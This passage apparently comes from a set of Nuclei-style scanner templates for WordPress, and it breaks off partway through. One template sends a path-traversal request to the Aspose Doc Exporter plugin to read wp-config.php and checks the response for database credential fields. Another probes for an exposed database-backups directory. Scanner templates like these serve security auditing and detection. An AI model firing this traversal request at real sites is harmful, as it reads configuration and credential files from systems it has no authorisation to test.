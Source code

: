 ### URL

- {{BaseURL}}/wp-content/plugins/aspose-doc-exporter/aspose_doc_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress DB Backup

- severity - medium
- tags - wordpress,backup

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/uploads/database-backups/

### Matchers

**Type - word**

- words
  1. Index of /
  2. wp-content/uploads/database-backups
  3. .sql
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# WordPress Plugin Email Subscribers Listing
